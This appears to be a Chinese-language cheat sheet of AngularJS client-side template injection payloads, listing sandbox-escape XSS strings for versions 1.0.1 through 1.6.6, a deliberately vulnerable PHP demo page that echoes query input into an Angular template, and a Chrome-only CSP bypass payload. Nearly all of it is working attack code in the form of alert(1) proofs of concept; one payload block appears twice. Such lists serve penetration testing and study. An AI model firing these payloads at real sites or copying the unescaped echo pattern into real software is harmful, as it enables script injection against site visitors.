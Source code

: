 参考：
	- https://seaii-blog.com/index.php/2017/09/02/68.html

demo
```
<html ng-app>
<head>
    <script src="https://code.angularjs.org/{version}/angular.min.js"></script>
</head>
<body>
    <p>
    <?php
        $q = $_GET['q'];
        echo htmlspecialchars($q,ENT_QUOTES);
    ?>
</p>   
</body>
</html>
```

v1.0.1-v1.1.5
```javascript
{{ constructor.constructor('alert(1)')() }}
```

v1.2.0-v1.2.18
```javascript
{{ a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')() }}
```

v1.2.19-v1.2.23
```javascript
{{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }}
```

v1.2.19-v1.2.23
```javascript
{{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }}
```

v1.2.24-v1.2.26
![](/images/angularjs模板注入.png)

v1.2.27-v1.2.29/v1.3.0-v1.3.20(实际测试为v1.2.20-v1.2.32/v1.3.0-v1.3.20均生效。)
```javascript
{{ {}.")));alert(1)//"; }}
```

v1.4.0-v1.4.5（仅chrome）
```javascript
{{ o={};l=o[['__lookupGetter__']];(l=l)('event')().target.defaultView.location='javascript:alert(1)'; }}
```

v1.4.5-1.5.8 （仅chrome）
```javascript
{{ x={y:''.constructor.prototype};x.y.charAt=[].join;[1]|orderBy:'x=alert(1)' }}
```

v1.6.0-1.6.6
```javascript
{{ [].pop.constructor('alert(1)')() }}
```

csp bypass （仅chrome v1.4.0-v1.6.6）
```html
<html ng-app>
<head>
    <?php
        header("Content-Security-Policy:default-src 'self';script-src code.angularjs.org 'self'");
    ?>
    <script src="https://code.angularjs.org/{version}/angular.min.js"></script>
</head>
<body>
    <p>
    <?php
        echo $_GET['q'];
    ?>
</p>   
</body>
</html>
```
```javascript
<input+autofocus ng-focus="$event.path|orderBy:'!x?[].constructor.from([x=1],alert):0'">
```

2.10版本之后，AngularJS废除了沙盒机制